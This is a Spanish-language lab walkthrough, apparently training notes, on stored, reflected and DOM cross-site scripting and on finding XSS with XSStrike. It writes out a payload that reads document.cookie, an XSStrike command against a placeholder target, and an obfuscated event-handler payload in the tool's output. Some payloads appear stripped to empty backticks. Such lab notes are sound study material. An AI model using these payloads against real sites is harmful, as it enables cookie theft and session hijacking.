



# Laboratorio: Stored XSS 📁

1. Vamos a la página web

<p align="center">
    
</p>

---

2. Usaremos el **payload** **`<script>alert(document.cookie)</script>`**
<p align="center">
    
</p>

---

❕ Le **llamamos `STORED`** ya que si recargamos la página la alerta se nos desplegará nuevamente, esto, porque se almacenó en la base de datos.

# Laboratorio: Reflected XSS 👥

1. Usaremos el payload **``**
<p align="center">
    
</p>

❕ Le **llamamos `REFLECTED`** ya que no se almacena en la base de datos, sin embargo, la consulta y ejecuta la acción, en este caso la web toma un parámetro de entrada de un usuario y luego lo refleja directamente en la página sin realizar una adecuada validación o sanitización
* **URL:** `http://<IP>:<Port>/index.php?task=`

# Laboratorio: DOM XSS 🍾

1. El payload que usaremos es **``**

<p align="center">
    
</p>

❕ Estas únicamente alterar al **estructura (DOM)** de la página web, temporalmente, no consulta al **backend** y si recargamos la página no veremos la alerta nuevamente.

# Laboratorio: XSS Discovery 🎲

1. Usaremos la herramienta [XSStrike](https://github.com/s0md3v/XSStrike)
* `python3 xsstrike.py -u "http://<IP>:<Port>/?fullname=d3v&username=d3v&password=d3v&email=d3v"`

**Output**
```java
[!] Testing parameter: email 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3070 
------------------------------------------------------------
[+] Payload: <A%0aOnmOUsEOVER%0a=%0a[8].find(confirm)>v3dm0s
```

* El parámetro vulnerable es **`email`** y el tipo de XSS es **`reflected`**